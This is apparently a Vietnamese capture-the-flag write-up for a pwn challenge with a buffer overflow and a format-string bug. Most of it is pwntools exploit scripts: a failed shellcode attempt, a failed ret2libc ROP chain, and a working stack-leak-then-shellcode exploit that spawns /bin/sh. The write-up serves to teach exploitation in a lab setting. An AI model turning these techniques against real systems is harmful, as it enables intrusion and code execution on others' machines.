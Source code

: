 # Ret2libc hay Ret2shellcode ???

*1 chall khá thú vị đấy*

**ida:**

```c 

int __fastcall to_lower(const char *a1, int a2)
{
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i < a2; ++i )
    a1[i] = tolower(a1[i]);
  printf("RESULT: ");
  return printf(a1);
}

__int64 input()
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  fgets(s, 96, stdin);
  return to_lower(s, 24LL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  puts("Input Text:");
  input();
  return 0;
}


```

**chà có 1 lúc cả BOF và fmtstr luôn**

checks:

![image](https://github.com/gookoosss/CTF/assets/128712571/69754002-7bfa-49aa-aec1-3656ca8082cf)


lần đầu gặp NX đóng đấy, n**ếu NX đóng thì ta nghĩ ngay đến ret2shellcode liền**

thử chạy cách này xem sao:

## ret2shellcode

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./cs101-hw1_patched")
libc = ELF("./libc6_2.35-0ubuntu3.1_amd64.so")
p = process([exe.path])

context.binary = exe

shellcode = asm(
    '''
    mov rbx, 29400045130965551
    push rbx

    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
    ''', arch = 'amd64'
)

call_rax = 0x0000000000401014

gdb.attach(p,gdbscript= '''
b*input+51
b*to_lower+89
c
'''
)
input()

payload = shellcode
payload = payload.ljust(72, b'P')
payload += p64(exe.sym['input'] + 1)

p.sendlineafter(b'Input Text:\n' , payload)

payload = b'a'*72
payload += p64(call_rax)

p.sendline(payload)


p.interactive()

```

chà không được rồi

trong quá trình chạy hàm **to_lower**, chương trình lặp liên tục làm rax thay đổi thành 0x18 làm mất đi shellcode ta gán ban đầu, **lý do là hàm to_lower sẽ viết hoa hoặc ngược lại 24byte đầu ta nhập vào**

hmm bây giờ **ret2shellcode** ko được ta **ret2libc** thôi

**thử làm cách ret2libc bằng script này xem sao:**

## Ret2libc

```python3
from pwn import *

p = process('./cs101-hw1_patched')
exe = ELF("./cs101-hw1_patched")
libc = ELF('./libc6_2.35-0ubuntu3.1_amd64.so')

gdb.attach(p,gdbscript= '''
b*input+51
b*to_lower+89
c
'''
)
input()

    
payload = b'%25$p|'
payload = payload.ljust(72, b'P')
payload += p64(exe.sym['input'] + 1)
# payload += b'a'*264
# payload += p64(exe.sym['flag'])

# p.sendlineafter(b'cave?\n', payload)
p.sendlineafter(b'Input Text:\n' , payload)
p.recvuntil(b'RESULT: ')
# libc_leak = int(p.recvline()[:-1], 16)
libc_leak = int(p.recvuntil(b'|',drop=True),16)
libc.address = libc_leak - 0x29d90
log,info("libc leak: " + hex(libc_leak))
log,info("libc base: " + hex(libc.address))


pop_rdi = 0x000000000002a3e5 + libc.address
ret_addr = 0x0000000000029cd6 + libc.address

payload = b'a'*72
# payload += p64(ret_addr)
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(ret_addr)
payload += p64(libc.sym['system'])

# p.sendlineafter(b'Input Text:\n' , payload)
p.sendline(payload)


p.interactive()
```

vẫn ko được huhu

kiểm tra lại ida thì mới thấy là ta chỉ nhập được tối đa là 96byte, còn **ret2libc của ta bị quá 8byte rồi huhu**

sau khi được hint thì mình quyết định làm **ret2shellcode cần leak**

## (Ret2shellcode cần leak)

### ý tưởng 

- lợi dụng lỗi fmt thì ta có **dễ dàng leak được địa chỉ stack**
- hàm to_lower sẽ tự động thay đổi 24byte đầu của ta, nên đặt shellcode lên đầu là quá non, **ta cần bỏ qua 24byte đầu rồi mới đặt shellcode ở đó**
- ta chỉ nhập được 1 lần duy nhất nên lần leak stack ta sẽ **ret2win vào hàm input để nhập lại 1 lần nữa rồi gán shellcode vào**
- vì ta đã leak được địa chỉ stack nên **ta có thể dễ dàng tính offset ra địa chỉ stack trỏ đến shellcode**

### script

```python3 
from pwn import *

p = process('./cs101-hw1_patched')
exe = ELF("./cs101-hw1_patched")
libc = ELF('./libc6_2.35-0ubuntu3.1_amd64.so')

gdb.attach(p,gdbscript= '''
b*input+27
b*input+51
b*to_lower+89
c
'''
)
input()

shellcode = asm(
    '''
    mov rbx, 29400045130965551
    push rbx

    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
    ''', arch = 'amd64'
)

# stage 1: leak stack 

payload = b'%29$p|'
payload = payload.ljust(72, b'P')
payload += p64(exe.sym['input'] + 1)
p.sendlineafter(b'Input Text:\n' , payload)
p.recvuntil(b'RESULT: ')
stack_leak = int(p.recvuntil(b'|',drop=True),16)
stack_shellcode = stack_leak - 0x150
log.info("stack leak: " + hex(stack_leak))
log.info("shellcode addr: " + hex(stack_shellcode))

# stage 2: add shellcode

payload = b'a'*24
payload += shellcode
payload = payload.ljust(72, b'P')
payload += p64(stack_shellcode)

p.sendline(payload)
p.interactive()

```



